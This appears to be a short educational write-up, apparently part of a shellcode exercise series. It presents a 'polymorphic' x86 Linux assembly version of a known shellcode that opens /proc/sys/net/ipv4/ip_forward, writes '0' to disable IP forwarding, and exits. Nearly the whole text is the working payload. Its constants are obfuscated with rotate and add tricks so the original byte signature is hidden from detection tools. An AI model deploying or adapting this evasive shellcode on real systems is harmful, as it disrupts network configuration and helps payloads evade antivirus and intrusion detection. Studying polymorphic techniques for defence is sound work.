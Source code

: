 



* * *



The last shellcode that has been "polymorphized" is a "set /proc/sys/net/ipv4/ip_forward to 0 and exit()". The original code can be found [here](http://shell-storm.org/shellcode/files/shellcode-848.php).

This is the code of the polymorphic version:

    
    global _start
    section .text
    _start:
    	xchg ebx,eax
    	xor eax,ebx
    
    	mov dword [esp-4], eax
    	sub esp,4
    	mov dword [esp-4],0x64726177
    	mov dword [esp-8], 0x726f665f
    	sub esp,8
    	mov ebx,0x2f347069
    	rol ebx,16
    	push ebx
    	mov ebx,0x6310101a
    	add ebx,0x13605915
    	push ebx
    	push 0x74656e2f
    	push 0x2f737973
    	mov ebx,0x6f722f63
    	rol ebx,16
    	mov dword [esp-4],ebx
    	sub esp,4
    	push WORD 0x702f
    	mov ebx,esp
    	mov cl,0x1
    	mov al,0x5
    	int 0x80
    
    	mov ebx,eax
    	push 0x30
    	mov ecx,esp
    	mov dl,0x1
    	mov al,0x4
    	int 0x80
    
    	mov al,0x6
    	int 0x80
    
    	mov al,0x1
    	int 0x80

